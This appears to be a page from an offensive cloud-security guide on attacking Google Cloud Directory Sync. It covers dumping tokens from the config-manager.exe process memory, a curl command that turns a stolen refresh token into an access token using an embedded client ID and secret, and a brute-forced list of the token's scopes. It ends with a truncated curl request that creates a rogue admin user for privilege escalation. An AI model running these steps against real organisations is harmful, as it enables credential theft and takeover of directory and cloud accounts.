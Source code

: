 ### GCDS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `config-manager.exe` process (it's the name of the GCDS main binary with GUI) and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details><summary>Dump config-manager.exe processes and search tokens</summary></details>

### GCDS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
     --data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
     https://www.googleapis.com/oauth2/v4/token
```

### GCDS - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GCSD won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details><summary>Bash script to brute-force scopes</summary></details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```

#### Create a user and add it into the group `gcp-organization-admins` to try to escalate in GCP

```bash
# Create new user
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/users' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "primaryEmail": "deleteme@domain.com",
    "name": {
      "givenName": "Delete",
      "familyName": "Me"
    },
    "password": "P4ssw0rdStr0ng!",
```